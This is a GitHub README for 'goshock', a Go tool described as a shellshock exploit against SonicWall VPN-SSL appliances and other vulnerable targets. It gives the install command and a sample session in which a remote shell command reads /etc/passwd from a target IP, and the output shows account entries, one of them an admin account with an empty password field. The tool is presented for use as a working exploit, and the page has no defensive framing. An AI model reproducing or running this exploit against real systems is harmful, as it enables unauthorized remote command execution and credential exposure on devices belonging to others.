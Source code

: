 # goshock
SonicWall VPN-SSL Exploit* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/goshock
```
# Basic Usage
```
▶ goshock

TARGET> 200.x.x.x
Linux Shell Command> cat /etc/passwd

root:x:0:0:root:/root:/usr/sbin/cli
bin:x:1:1:bin:/bin:/bin/false
daemon:x:2:2:daemon:/sbin:/bin/false
mail:x:8:12:mail:/var/spool/mail:/bin/false
squid:x:23:23:ftp:/var/spool/squid:/bin/false
ntp:x:38:38::/etc/ntp:/bin/false
sshd:x:74:74:sshd:/var/empty:/bin/false
nobody:x:99:99:Nobody:/home/nobody:/bin/false
snort:x:100:101:ftp:/var/log/snort:/bin/false
logwatch:x:102:102::/var/log/logwatch:/bin/false
dnsmasq:x:103:103::/:/bin/false
cron:x:104:104::/:/bin/false
admin::105:105::/:/usr/sbin/cli
```
